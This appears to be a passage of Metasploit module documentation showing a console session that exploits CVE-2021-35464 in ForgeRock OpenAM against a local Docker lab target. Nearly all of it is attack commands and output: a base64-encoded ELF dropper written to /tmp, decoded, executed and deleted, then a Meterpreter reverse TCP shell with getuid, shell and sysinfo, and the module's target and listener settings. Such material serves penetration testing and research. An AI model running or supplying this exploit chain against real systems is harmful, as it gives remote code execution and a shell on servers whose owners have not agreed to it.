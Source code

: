 ```
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > check
[*] 127.0.0.1:7080 - The target appears to be vulnerable.
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[+] Successfully executed command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwSAAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/YmhYe.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/wucGF' < '/tmp/YmhYe.b64' ; chmod +x '/tmp/wucGF' ; '/tmp/wucGF' ; rm -f '/tmp/wucGF' ; rm -f '/tmp/YmhYe.b64'
[*] Sending stage (3012548 bytes) to 172.18.0.2
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:52990) at 2021-07-09 16:15:05 -0500

meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > shell
Process 490 created.
Channel 1 created.
pwd
/usr/local/tomcat
^Z
Background channel 1? [y/N]  y
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.9 (Linux 5.8.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ForgeRock AM 6.5.3 on Ubuntu 20.04.2 x64 with Docker version 20.10.7
```
msf > use exploit/multi/http/cve_2021_35464_forgerock_openam
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > set LHOST docker0
LHOST => 172.18.0.1
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > set RPORT 8080
RPORT => 7080
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
```